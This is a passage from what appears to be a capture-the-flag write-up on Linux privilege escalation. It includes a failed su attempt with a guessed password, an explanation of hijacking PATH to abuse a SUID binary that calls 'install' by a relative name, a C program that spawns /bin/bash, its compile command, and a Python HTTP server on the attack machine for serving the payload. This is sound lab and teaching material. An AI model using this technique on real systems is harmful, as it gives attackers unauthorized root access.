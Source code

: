 Now lets see if that is still root's password

```bash
su 

password: (redhat)

su: Authentication failure
```

No luck with the redhat password

After a couple of hours messing around with the binary and researching about suid exploitation I came across this
article https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-path-abuses, it talks about
how if the binary is calling another command but is not using a absolute path you can add a custom path
to your path variable and create a malicious executable causing the suid binary to run that command/executable rather
than the real one inside of /usr/bin

So with having found that out I wrote and compiled a c program on my kali machine called install that just calls 
/bin/bash, I then downloaded it onto the target machine and made it an executable. I added the /home/search/tools/
to my path variable so that when I ran the suid binary that calls install it would run my version of install
instead of the one in /usr/bin


# install code

```c
#include<unistd.h>

void main()
{
        system("/bin/bash");
}
```

# compile install.c

```bash
gcc install.c -o install
```

# http server on kali (attack machine)

```bash
python3 -m http.server
```
